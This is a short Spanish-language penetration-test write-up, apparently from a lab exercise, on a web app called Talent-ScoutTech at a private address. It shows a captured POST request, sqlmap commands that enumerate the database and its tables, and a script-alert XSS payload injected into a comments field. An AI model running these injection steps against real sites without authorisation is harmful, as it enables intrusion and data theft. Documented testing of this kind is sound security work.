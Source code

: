 # **Pentesting de la Web Web_Talent-ScoutTech**

# SQLi

Se ha capturado una solisitud POST de envio de un usuario inventado con ZapProxy.
Solicitud POST:
![1ff7cf3856016747d16c29928dcc31f8.png](/img/1ff7cf3856016747d16c29928dcc31f8.png)
```bash
POST /insert_player.php HTTP/1.1
Host: 192.168.1.205:8080
Proxy-Connection: keep-alive
Content-Length: 28
Cache-Control: max-age=0
Origin: http://192.168.1.205:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en
Referer: http://192.168.1.205:8080/insert_player.php

username=admin&password=1234
```

<br>

## Detalles de la maquina
utilizando sqlmap se puede sacar informacion util como las versiones: `sqlmap -r login_request.txt --batch --dbs`

- Sistema operativo: Linux Debian.
- Servidor web: Apache 2.4.62.
- PHP: 8.3.15.
- Base de datos: SQLite.

<br>

## Base de Datos

Utilizando sqlmap, se puede llegar a sacar los nombres de las tablas, en este caso se a utilizado el siguiente comando: `sqlmap -r login_request.txt --common-tables --batch`

- users
- comments
- players

<br>

---
---
---
---

<br>

# XSS

La pagina web es vulnerable a XSS, en los comentarios se puede inyectar codigo malicioso.

Se a inyectado un codigo de prueba: `<script>alert('XSS detectado');</script>`

![41ea2774a6f97f5ef5b1b41b44b853d9.png](/img/41ea2774a6f97f5ef5b1b41b44b853d9.png)
